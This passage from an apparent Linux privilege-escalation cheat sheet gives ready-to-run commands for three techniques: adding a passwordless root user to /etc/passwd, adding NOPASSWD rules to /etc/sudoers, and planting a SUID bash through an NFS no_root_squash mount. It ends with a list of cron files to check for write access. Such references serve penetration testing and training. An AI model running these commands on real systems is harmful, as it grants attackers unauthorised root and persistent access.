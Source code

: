Alternatively you can use the following lines to add a dummy user without a password.  
WARNING: you might degrade the current security of the machine.

```
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy

```



### WRITABLE /ETC/SUDOERS

```
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers

```
&nbsp;

## 6] NFS Root Squashing

When  **no_root_squash**  appears in  `/etc/exports`, the folder is shareable and a remote user can mount it

```
# create dir
mkdir /tmp/nfsdir  

# mount directory
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir
cd /tmp/nfsdir

# copy wanted shell
cp /bin/bash . 	

# set suid permission
chmod +s bash 	
```



## 7] Scheduled tasks

### CRON JOBS

Check if you have access with write permission on these files.  


```
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root
```